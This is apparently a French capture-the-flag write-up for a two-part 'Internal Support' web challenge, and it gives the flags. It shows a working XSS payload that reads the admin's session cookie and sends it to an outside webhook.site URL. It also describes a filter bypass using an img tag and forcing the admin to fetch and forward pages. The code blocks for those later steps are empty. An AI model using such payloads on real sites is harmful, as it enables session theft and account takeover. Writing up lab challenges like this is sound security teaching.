








# Internal Support 1 & 2

Le challenge est en deux parties, mais les résolutions sont très similaires.

Énoncé de la partie 1:

> L'application "Internal Support" permet à la DGA d'assurer le support auprès de ses agents. En tant que nouvel embauché, vous pouvez vous y inscrire dès à présent. Chaque demande de support est maintenant traitée par nos administrateurs en un temps record.
>
> Avec une posture d’attaquant, votre but est de parvenir à vous connecter en tant qu'administrateur. Malheureusement pour vous, le mot de passe est bien trop robuste, vous devez trouver un autre moyen.

Partie 2:

> Votre chance de débutant a des limites… La sécurité a été renforcée suite à la découverte de failles dans la précédente version !
>
> Avec une posture d’attaquant, votre but est de parvenir à vous connecter en tant qu'administrateur. Malheureusement pour vous, le mot de passe est bien trop robuste, vous devez trouver un autre moyen.

## Description

On arrive sur la page d'accueil du site web.



On crée un compte. Une fois inscrit et connecté, il n'y a qu'une seule action intéressante à faire : envoyer un message pour le support. Ce message est ensuite envoyé à l'admin et affiché sur notre écran.



Cela fait très fortement penser à une attaque reflected XSS, dans laquelle on injecte du code malveillant que l'admin va exécuter quand il lira notre requête.

Effectivement, si on rentre `<script>alert(1)</script>` dans le message, l'alerte d'exécute de notre côté. Reste maintenant à injecter du code malveillant.

## Solution de la partie 1

Le but est de se connecter en tant qu'administrateur. Trouver le mot de passe n'est pas la bonne solution d'après l'énoncé, il faut donc trouver un autre moyen.

Si j'observe mes cookies, je remarque un cookie de session.



Et là surprise ! Le cookie n'est pas en http only, ce qui signifie que les scripts js peuvent y accéder.

Le script suivant permet donc de récupérer le cookie, puis de l'envoyer sur un webhook pour que je puisse accéder à la réponse.

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://webhook.site/e4e61709-8764-4b2a-ba78-62094b66649d?cookie=" + document.cookie);
xhr.send();
</script>
```

Après quelques secondes j'obtiens le cookie admin :



Le flag est sur la page principale.



Flag: `NoUserValidationIsADangerousPractice`

## Solution 2

Pour le second site qui est exactement similaire, la même méthode ne fonctionne pas car le formulaire détecte le code malveillant.



Ce n'est toutefois pas un problème puisqu'on peut facilement contourner le problème grâce à une balise img à la place de script.

```html

```

La même technique fonctionne, et j'obtiens le cookie admin. Cependant, un nouveau mécanisme de défense est apparent:



Malheureusement, spoofer l'adresse ip, même si on arrivait à trouver la bonne, ne serait pas d'une grande aide puisqu'on n'obtiendrait pas la réponse.

La solution est donc de demander à l'admin, qui lui est connecté, d'effectuer le travail à notre place.

Je crée donc une première requête que l'admin va effectuer, qui renvoie la page principale, et ensuite je m'envoie la réponse.

```html

```

On obtient le flag dans la page reçue (activer CORS headers sur le webhook pour recevoir les requêtes POST).



Flag: `BEtter_BUT_ST!LL_N0tttttttttt++Prfct!`